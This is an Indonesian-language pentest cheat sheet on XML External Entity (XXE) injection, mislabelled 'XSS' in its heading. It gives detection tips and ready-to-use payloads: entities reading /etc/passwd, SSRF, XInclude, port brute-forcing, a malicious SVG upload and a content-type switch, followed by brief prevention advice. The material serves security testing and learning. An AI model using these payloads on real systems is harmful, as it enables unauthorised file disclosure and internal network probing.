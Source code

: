 # XSS :beetle:

Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
## Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cara cepat menemukan XML endpoint adalah automasi
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://1”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```    
## Prevention**
  - Disable DTD
  - Disable entity saja

## Online Resource**


